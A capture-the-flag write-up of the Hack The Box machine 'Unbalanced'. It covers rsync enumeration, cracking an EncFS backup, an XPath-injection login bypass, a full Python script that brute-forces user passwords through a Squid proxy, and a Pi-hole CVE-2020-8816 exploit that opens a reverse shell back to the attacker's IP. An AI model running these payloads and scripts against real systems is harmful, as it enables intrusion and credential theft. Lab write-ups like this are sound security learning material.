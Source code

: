 ```yaml
---
layout: default
title : bvr0n - Unbalanced Write-up
---
```


_**Oct 10, 2020**_

[Unbalanced](https://www.hackthebox.eu/home/machines/profile/268) Writeup


## Nmap Scan :
```
bvr0n@kali:~$ nmap -sC -sV 10.10.10.200
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a2:76:5c:b0:88:6f:9e:62:e8:83:51:e7:cf:bf:2d:f2 (RSA)
|   256 d0:65:fb:f6:3e:11:b1:d6:e6:f7:5e:c0:15:0c:0a:77 (ECDSA)
|_  256 5e:2b:93:59:1d:49:28:8d:43:2c:c1:f7:e3:37:0f:83 (ED25519)
873/tcp  open  rsync      (protocol version 31)
3128/tcp open  http-proxy Squid http proxy 4.6
|_http-server-header: squid/4.6
|_http-title: ERROR: The requested URL could not be retrieved
```

## Rsync :

We can liste all modules through this commands :

```
bvr0n@kali:~$ rsync -av --list-only rsync://10.10.10.200:873
conf_backups    EncFS-encrypted configuration backups
```

We can see that there is a shared folder, let's see what's inside :

```
bvr0n@kali:~$ rsync -av --list-only rsync://10.10.10.200:873/conf_backups
receiving incremental file list
drwxr-xr-x          4,096 2020/04/04 11:05:32 .
-rw-r--r--            288 2020/04/04 11:05:31 ,CBjPJW4EGlcqwZW4nmVqBA6
-rw-r--r--            135 2020/04/04 11:05:31 -FjZ6-6,Fa,tMvlDsuVAO7ek
-rw-r--r--          1,297 2020/04/02 09:06:19 .encfs6.xml
-rw-r--r--            154 2020/04/04 11:05:32 0K72OfkNRRx3-f0Y6eQKwnjn
-rw-r--r--             56 2020/04/04 11:05:32 27FonaNT2gnNc3voXuKWgEFP4sE9mxg0OZ96NB0x4OcLo-
-rw-r--r--            190 2020/04/04 11:05:32 2VyeljxHWrDX37La6FhUGIJS
```

Let's grab the whole folder :

```
bvr0n@kali:~/CTF/HTB/Unbalanced$ rsync -av rsync://10.10.10.200:873/conf_backups conf_backups/.
```

And decrypt it, but first let's turn it to somethin that JohnTheRipper can understand :

```
bvr0n@kali:~/CTF/HTB/Unbalanced$ /usr/share/john/encfs2john.py conf_backups/ > hashed.txt
bvr0n@kali:~/CTF/HTB/Unbalanced$ sudo john hashed.txt --wordlist=/home/bvr0n/Documents/rockyou.txt
[sudo] password for bvr0n: 
Using default input encoding: UTF-8
Loaded 1 password hash (EncFS [PBKDF2-SHA1 128/128 AVX 4x AES])
Cost 1 (iteration count) is 580280 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bubblegum        (conf_backups/)
```

Now all we have to do is decrypt them :

```
bvr0n@kali:~/CTF/HTB/Unbalanced$ encfs ~/CTF/HTB/Unbalanced/conf_backups/ ~/CTF/HTB/Unbalanced/output/
EncFS Password: 
```

Using a basic technick get us the password : 

```
bvr0n@kali:~/CTF/HTB/Unbalanced/output$ cat * | grep -i passwd
cachemgr_passwd Thah$Sh1
```

Looks like we got Cache Manager's Password, [Check Here](http://etutorials.org/Server+Administration/Squid.+The+definitive+guide/Chapter+14.+Monitoring+Squid/14.2+The+Cache+Manager/) for more information about it :

```
bvr0n@kali:~/CTF/HTB/Unbalanced$ squidclient -h 10.10.10.200 -w 'Thah$Sh1' mgr:fqdncache

Address                                       Flg TTL Cnt Hostnames
127.0.1.1                                       H -001   2 unbalanced.htb unbalanced
::1                                             H -001   3 localhost ip6-localhost ip6-loopback
172.31.179.2                                    H -001   1 intranet-host2.unbalanced.htb
172.31.179.3                                    H -001   1 intranet-host3.unbalanced.htb
127.0.0.1                                       H -001   1 localhost
172.17.0.1                                      H -001   1 intranet.unbalanced.htb
ff02::1                                         H -001   1 ip6-allnodes
ff02::2                                         H -001   1 ip6-allrouters
10.10.14.64                                    N  -221   0
10.10.14.251                                   N  -5322   0
10.10.15.11                                    N  -8266   0
```

When we go to http://172.31.179.1/intranet.php through the proxy, we get a login form , we try some XPATH Injections and we get something :

```
Username : blah' or 1=1 or 'a'='a
Password : blah
```
Now we have to write a scripte to grabe the passwords for us.

After writing an exploit (Thanks to [m3dsec](github.com/m3dsec) for the help) we get the creds for ssh :

Final [m3dsec](github.com/m3dsec) script :
```python
!/usr/bin/python3
import requests
import string

squid = {"http":"http://10.10.10.200:3128"}
url = 'http://172.31.179.1/intranet.php'

alphabet = string.ascii_letters + string.digits + '@?><":}{)(*&^%$#!~'
users = ['rita','jim','bryan','sarah']
l = 0
fp = ''

for u in users:
    try:
        print("[*] Retriving " + u + "'s password..")
        for i in range(1, 30):
            # for every i, check if character is in that number range
            for c in alphabet:
                paylaod = "' or username='" + u + "' or substring(Password," + str(i) + ",1)='" + str(c) + "' or'"
                form_data = {"Username":u,"Password":paylaod}
                #print(form_data)
                r = requests.post(url, proxies=squid,data=form_data)
                if len(r.text) != 6736 and u in r.text:
                    fp += c
                    print("[*] Found a new character : " + str(c))
                    print("[*] " + u + ":" + fp)
            l += 1
        print("[*] " + u + ":" + fp)
    except KeyboardInterrupt:
        print()
        continue
```
```
rita : pass*******
jim : sta********eaven
bryan : ireal***********egum!!!
sarah : sara*****h'
```
Login to ssh with `bryan` give us the user flag.

After a while and lot of Enumeration i realised that we need to Port-Forward to the Pi-Hole Admin console :
```
bvr0n@kali:~$ ssh -L 8088:localhost:8080 -N -f bryan@10.10.10.200
bvr0n@kali:~$ nmap localhost -p 8088

PORT     STATE SERVICE
8088/tcp open  radan-http
```

Now we can access it, Password is : `admin`

After pooking arount i found this [exploit](https://github.com/AndreyRainchik/CVE-2020-8816), let's give it a try :
```
bvr0n@kali:~/CTF/HTB/Unbalanced$ python3 CVE-2020-8816.py http://127.0.0.1:8088/ admin 10.10.14.44 4444
bvr0n@kali:~/CTF/HTB/Unbalanced$ nc -lnvp 444

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ cd /root
$ ls
ph_install.sh
pihole_config.sh
```

After checking `pihole_config.sh` i found something pretty intresting :
```
# Set web admin interface password
/usr/local/bin/pihole -a -p 'bUbBl3********Ry0n3!'
```
That was the Root password for ssh !!!

<br>
best regards

[bvr0n](https://github.com/bvr0n)


<br>
<br>
[back to main](https://bvr0n.github.io/)

<br>
